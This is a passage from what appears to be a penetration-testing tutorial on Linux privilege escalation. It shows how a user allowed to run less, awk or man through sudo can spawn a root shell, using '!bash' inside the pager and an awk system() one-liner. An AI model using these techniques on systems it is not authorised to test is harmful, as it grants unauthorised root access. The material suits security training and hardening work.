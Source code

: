 sudo less /etc/hosts

1

sudo less  /etc/hosts

![](https://i0.wp.com/1.bp.blogspot.com/-WakRShQRD_s/WwZTVC_bh4I/AAAAAAAAXA0/8trMMtN0fWo-fghXJJjo1ZVnlYhX8dc7wCLcBGAs/s1600/17.png?w=687)  
It will open requested system file for editing, BUT for spawning root shell type **!bash** as shown below and hit enter.  
You will get root access as shown in the below image.  
![](https://i2.wp.com/3.bp.blogspot.com/-awIMJQqnZ4o/WwZTVX6T8VI/AAAAAAAAXA4/Ra1nm_ItAJ4dwOdNtFkRJgIaDOwAbRkRgCLcBGAs/s1600/18.png?w=687)  

### **Spawn shell using AWK**

After the compromise, the target system then moves for privilege escalation phase as done above and execute the below command to view the sudo user list.  

sudo -l

1

sudo  \-l

At this phase, you can notice the highlighted text is representing that the user raaz can run AWK language program or script as root user. Therefore we obtained root access by executing AWK one-liner.  

sudo awk 'BEGIN {system("/bin/bash")}' id

1

2

sudo awk  'BEGIN {system("/bin/bash")}'

id

![](https://i0.wp.com/3.bp.blogspot.com/-3z4d9NLyZDY/WwZTVdOxolI/AAAAAAAAXA8/MNXLKudiLMYK46u-v2_HZCtCE66OYNupgCLcBGAs/s1600/19.png?w=687)  

### **Spawn shell using Man Command (Manual page)**

For privilege escalation and execute below command to view sudo user list.  

sudo -l

1

sudo  \-l

Here you can observe the highlighted text is indicating that the user raaz can run man command as root user. Therefore we got root access by executing the following.  

sudo man man

1

sudo man man

![](https://i2.wp.com/3.bp.blogspot.com/-Ga7s49HvIwk/WwZTWXR7FqI/AAAAAAAAXBE/GP0HgHi5REwrjiAxvJn4kU1-g3-hHsKDACLcBGAs/s1600/20.png?w=687)  
It will be displaying Linux manual pages for editing, BUT for spawning root shell type **!bash** as presented below and hit enter, you get root access as done above using Less command.  
![](https://i1.wp.com/1.bp.blogspot.com/-OtJcnU-fFes/WwZTWSvUeQI/AAAAAAAAXBI/TEDWwTP4YLY8ggD-FqGTEB29NuCihVj3ACLcBGAs/s1600/21.png?w=687)  
You will get root access as shown in the below image.  
![](https://i1.wp.com/1.bp.blogspot.com/-nPNaM0oVeJQ/WwZjoTQRCsI/AAAAAAAAXCk/SMB8EqA2qQgevyIUvQhQ7PesVzOFyG1_gCLcBGAs/s1600/24.png?w=687)  
